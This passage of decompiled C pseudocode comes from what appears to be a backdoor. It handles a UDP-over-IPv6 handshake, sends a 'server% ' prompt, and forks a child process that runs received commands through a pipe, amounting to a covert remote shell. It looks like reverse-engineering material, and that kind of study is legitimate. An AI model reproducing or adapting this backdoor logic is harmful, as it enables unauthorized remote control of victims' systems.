 	                (int)packet_->hdr.ip6_src.__u6_addr32[2],
	                (int)packet_->hdr.ip6_src.__u6_addr32[3],
	                (char)packet_->hdr.ip6_dst.__u6_addr32[0],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[1],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[2],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[3],
	                udp_dport,
	                udp_sport);
	        if ( ptr )
	        {
	          switch ( LOBYTE(ptr->state) )
	          {
	            case SYNACK:
	              snprintf(s, 0xEu, "ACK%d", ptr->rand_value);
	              if ( ntohs(packet_->hdr.ip6_un1_plen) == strlen(s) + 8 )
	              {
	                if ( !strncmp(udp_data, s, strlen(s)) )
	                {
	                  LOBYTE(ptr->state) = 2;
	                  snprintf(s, 0x63u, "server%% ");
	                  if ( sendto_0(s, strlen(s), (ptr_type *)ptr) != strlen(s) )
	                    remove_from_state_table(ptr);
	                }
	                else
	                {
	                  remove_from_state_table(ptr);
	                }
	              }
	              break;
	            case ACK:
	              if ( !pipe(pipedes) )
	              {
	                ptr->child_process = fork();
	                if ( ptr->child_process == -1 )
	                {
	                  free(ptr);
	                }
	                else
	                {
	                  if ( !ptr->child_process )
	                  {
	                    ptr->child_pipe[0] = pipedes[0];
	                    close(pipedes[1]);
	                    cmdprocessor(ptr);
	                    exit(0);
	                  }
	                  ptr->child_pipe[1] = pipedes[1];
	                  close(pipedes[0]);
	                  LOBYTE(ptr->state) = 3;
	                  ptr->time = time(0);
	                  packet_len = ntohs(packet_->hdr.ip6_un1_plen);
	                  write_len = write(ptr->child_pipe[1], &packet_->udphd, packet_len);
	                  if ( write_len == -1 || (v11 = ntohs(packet_->hdr.ip6_un1_plen), v11 != write_len) )
	                  {
	                    close(ptr->child_pipe[1]);
	                    kill(ptr->child_process, 9);
	                    remove_from_state_table(ptr);
	                  }
	                }
	              }
	              break;
	            case ESTABLISHED:
	              packet_len = ntohs(packet_->hdr.ip6_un1_plen);
	              write_len = write(ptr->child_pipe[1], &packet_->udphd, packet_len);